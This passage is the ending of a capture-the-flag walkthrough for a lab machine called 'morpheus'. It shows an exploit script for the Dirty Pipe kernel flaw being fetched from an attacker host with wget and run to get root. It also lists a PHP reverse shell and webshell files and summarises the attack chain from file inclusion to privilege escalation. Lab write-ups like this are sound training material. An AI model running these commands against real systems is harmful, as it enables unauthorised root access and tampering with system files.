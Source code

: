 We can find something useful:

![image-20231115155130030](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311151551250.png)

We can use Dirty-Pipe to get root. The [exploit](https://github.com/imfiver/CVE-2022-0847). Download it and then execute:

```shell
www-data@morpheus:/var/www/html$ wget http://172.16.86.138:8080/dirty_pipe.sh
wget http://172.16.86.138:8080/dirty_pipe.sh
--2023-11-15 06:47:08--  http://172.16.86.138:8080/dirty_pipe.sh
Connecting to 172.16.86.138:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4855 (4.7K) [text/x-sh]
Saving to: ‘dirty_pipe.sh’

dirty_pipe.sh       100%[===================>]   4.74K  --.-KB/s    in 0s

2023-11-15 06:47:08 (489 MB/s) - ‘dirty_pipe.sh’ saved [4855/4855]

www-data@morpheus:/var/www/html$ ls -la
ls -la
total 1292
drwxr-xr-x 2 www-data www-data   4096 Nov 15 06:47 .
drwxr-xr-x 3 root     root       4096 Oct 28  2021 ..
-rw-r--r-- 1 www-data www-data 381359 Oct 28  2021 .cypher-neo.png
-rwxrwxrwx 1 www-data www-data 847815 Nov 15  2023 LinPEAS.sh
-rw-rw-rw- 1 www-data www-data   4855 Nov 15 03:32 dirty_pipe.sh
-rw-r--r-- 1 www-data www-data    778 Nov 15 05:34 graffiti.php
-rw-r--r-- 1 www-data www-data    181 Nov 15 05:29 graffiti.txt
-rw-r--r-- 1 www-data www-data    348 Oct 28  2021 index.html
-rw-r--r-- 1 www-data www-data   5495 Nov 15  2023 php_reverse_shell.php
-rw-r--r-- 1 www-data www-data     47 Oct 28  2021 robots.txt
-rw-r--r-- 1 www-data www-data     31 Nov 15 05:41 shell.php
-rw-r--r-- 1 www-data www-data  44297 Oct 28  2021 trinity.jpeg
www-data@morpheus:/var/www/html$ chmod +x dirty_pipe.sh
chmod +x dirty_pipe.sh
www-data@morpheus:/var/www/html$ ./dirty_pipe.sh
./dirty_pipe.sh
/etc/passwd已备份到/tmp/passwd
It worked!

# 恢复原来的密码
rm -rf /etc/passwd
mv /tmp/passwd /etc/passwd
root@morpheus:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@morpheus:/var/www/html# ls /root
ls /root
FLAG.txt
root@morpheus:/var/www/html# cat /root/FLAG.txt
cat /root/FLAG.txt
You've won!

Let's hope Matrix: Resurrections rocks!
```

## Attack Path

scann web directory --> analysis php file --> LFI --> upload webshell --> get revers shell --> privilege escalation

